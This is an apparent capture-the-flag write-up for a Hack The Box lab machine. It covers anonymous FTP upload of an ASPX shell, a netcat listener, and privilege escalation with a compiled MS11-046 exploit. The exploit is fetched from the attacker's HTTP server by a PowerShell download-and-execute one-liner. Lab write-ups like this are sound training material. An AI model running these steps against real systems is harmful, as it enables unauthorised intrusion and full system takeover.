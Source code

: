 # DEVEL

### Machine Info:
![alt text](machine_info.png)


##### NMAP:
![alt text](nmap.png)


###### FTP:
Anonymous login is allowed for FTP service.
![alt text](ftp.png)

Moreover Anonymous user can put file into FTP sever.
![alt text](ftp_put.png)



###### HTTP:
Microsoft IIS httpd 7.5 is running.

<img src="http_index.png" width=500 height=300>


##### Vulnerability:
FTP server allows anonymous user login and put malicious code to server. And via web server attacker can execute malicious code.

```
❯ echo test > test.txt
❯ ftp 10.10.10.5
Name (10.10.10.5:alcatrazk): anonymous
Password:
230 User logged in.
ftp> put test.txt
local: test.txt remote: test.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
6 bytes sent in 0.00 secs (217.0139 kB/s)
```
<img src="example.png" width=500>

<br></br>

##### Exploit:
Sever is running ASP.NET
```
❯ curl -I http://10.10.10.5
HTTP/1.1 200 OK
Content-Length: 689
Content-Type: text/html
Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
Accept-Ranges: bytes
ETag: "37b5ed12c9fd21:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Fri, 21 Feb 2020 10:38:13 GMT
```

Generate malicious shellcode:
![alt text](shellcode.png)
And upload via FTP:
![alt text](upload_shell.png)

##### Now Execute!!!

Just visit `http://10.10.10.5/shell.aspx`

NC listener on Attacking machine:
![alt text](nc.png)



##### Privilege Escalation:
![alt text](systeminfo.png)

The system is not patched so this could be exploited by kernel exploits. To find valid kernel exploits, I can run scripts such as Watson, windows-priv-checker. But before that I just searched for OS in google and tried one exploit.

```
Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)
```

Let's try with that exploit.

###### Exploit Code:
```
https://www.exploit-db.com/exploits/40564
```

###### Attacker Side:
```
❯ i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
❯ python -m SimpleHTTPServer 8080                              
Serving HTTP on 0.0.0.0 port 8080 ...                          
```
###### Victim Side:
```
# Download exploit by using Powershell download
@powershell -NoProfile -ExecutionPolicy unrestricted -Command (new-object System.Net.WebClient).Downloadfile('http://10.10.14.37:8080/40564.exe', 'C:\windows\temp\40564.exe')

C:\Windows\Temp>40564.exe
40564.exe

indows\System32>whoami
whoami
nt authority\system
```


##### Proof:

###### user.txt:
![alt text](user.png)

###### root.txt:
![alt text](root.png)
